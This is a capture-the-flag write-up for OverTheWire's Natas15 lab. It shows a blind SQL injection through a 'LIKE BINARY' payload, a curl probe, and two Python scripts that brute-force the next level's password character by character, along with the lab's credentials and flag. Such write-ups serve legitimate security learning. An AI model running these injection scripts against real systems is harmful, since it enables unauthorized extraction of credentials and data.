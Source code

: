 # Natas15

*	user: `natas15`
*	pass: `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`
*	url: `http://natas15.natas.labs.overthewire.org`
*	flag: `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`

## Procedure

1.	Similarly to Natas14, also in this level a SQL Injection is feasible.
	Indeed, we have a text field where users' existence is checkable via
	a not parametrised SQL query.

2.	We're looking for Natas16 password, so let's try if user `natas16`
	exists...

		$ curl -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/?username=natas16
		<html>
		[cut]
		<div id="content">
		This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		</body>
		</html>

3.	Well. Differently from Natas16, poisoned query's execution not
	provides any direct information. This means that we have to try a
	brute force attack.

4.	First of all we have to identify the charset containing only chars
	used in the password. To do that, we can exploit the operator `LIKE`
	allowing us to perform pattern matching. In practice, SQL code that
	we'll inject is

		natas16" AND password LIKE BINARY "%<CHAR>%" "

5.	In this case, Python can help us. The following script performs a
	brute force attack to identify the password charset

		import requests

		target = 'http://natas15.natas.labs.overthewire.org'
		charset_0 = (
			'0123456789' +
			'abcdefghijklmnopqrstuvwxyz' +
			'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
		)
		charset_1 = ''

		for c in charset_0:
			username = ('natas16" AND password LIKE BINARY "%' + c +'%" "')
			r = requests.get(target,
				auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'),
				params={"username": username}
			)
			if "This user exists" in r.text:
				charset_1 += c
				print ('CSET: ' + charset_1.ljust(len(charset_0), '*'))

	By executing the script, final result will be

		CSET: 0*************************************************************
		CSET: 03************************************************************
		...
		CSET: 03569acehijmnpqtwBEHINORW*************************************

6.	Well. The sub-charset is

		03569acehijmnpqtwBEHINORW

	Now let's try to perform a brute force attack against a 32 chars
	string (previous passwords were 32 chars strings) with this Python
	script

		import requests

		target = 'http://natas15.natas.labs.overthewire.org'
		charset_1 = "03569acehijmnpqtwBEHINORW"

		password = ""
		while len(password) != 32:
			for c in charset_1:
				t = password + c
				username = ('natas16" AND password LIKE BINARY "' + t +'%" "')
				r = requests.get(target,
					auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'),
					params={"username": username}
				)
				if "This user exists" in r.text:
					print ('PASS: ' + t.ljust(32, '*'))
					password = t
					break

	Run it

		$ python natas15.py
		PASS: W*******************************
		PASS: Wa******************************
		PASS: WaI*****************************
		...
		PASS: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
